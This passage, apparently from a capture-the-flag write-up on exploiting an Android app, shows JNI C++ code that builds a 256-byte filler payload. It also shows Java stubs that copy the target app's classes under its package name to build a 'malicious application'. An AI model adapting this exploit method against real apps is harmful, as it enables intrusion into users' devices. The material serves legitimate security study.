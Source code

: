 ```c++
// cpp/main.cpp
#include <cstdlib>
#include "jni.h"

extern "C"
JNIEXPORT jbyteArray JNICALL
Java_com_example_insomnipwn_MainActivity_buildPayload(JNIEnv *env, jobject thiz) {

    size_t payload_len = 0x100;
    char *payload = static_cast<char *>(calloc(payload_len, sizeof(char)));
    memset(payload, 0x41, payload_len);

    jbyteArray res = env->NewByteArray(payload_len);
    env->SetByteArrayRegion(res, 0, payload_len, reinterpret_cast<const jbyte *>(payload));
    return res;
}
```

We also need to copy the `JSONBuilder` and `CryptoConfig` classes from our target app and place them under the same package name:

```java
// java/com/inso/ins24/utils/CryptoConfig.java
package com.inso.ins24.utils;
public class CryptoConfig {
    /* Implementation omitted. Same as original app */
}

// java/com/inso/ins24/utils/JSONBuilder.java
package com.inso.ins24.utils;
public class JSONBuilder implements Parcelable {
    /* Implementation omitted. Same as original app */
}
```

Let's build our malicious application and run it!

<p float="middle">